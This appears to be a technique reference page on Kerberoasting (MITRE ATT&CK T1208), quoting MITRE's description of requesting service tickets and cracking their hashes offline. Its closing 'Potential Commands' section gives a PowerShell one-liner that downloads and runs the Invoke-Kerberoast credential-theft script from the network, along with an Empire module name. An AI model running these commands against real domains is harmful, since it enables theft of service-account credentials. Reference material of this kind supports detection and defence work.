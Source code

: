 
# Kerberoasting

## Description

### MITRE Description

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service (Citation: Microsoft Detecting Kerberoasting Feb 2018)). (Citation: Microsoft SPN) (Citation: Microsoft SetSPN) (Citation: SANS Attacking Kerberos Nov 2014) (Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). (Citation: Empire InvokeKerberoast Oct 2016) (Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose plaintext credentials. (Citation: AdSecurity Cracking Kerberos Dec 2015) (Citation: Empire InvokeKerberoast Oct 2016) (Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic. (Citation: AdSecurity Cracking Kerberos Dec 2015)

Cracked hashes may enable Persistence, Privilege Escalation, and  Lateral Movement via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078). (Citation: SANS Attacking Kerberos Nov 2014)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1208

## Potential Commands

```
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl

powershell/credentials/invoke_kerberoast
powershell/credentials/invoke_kerberoast
```
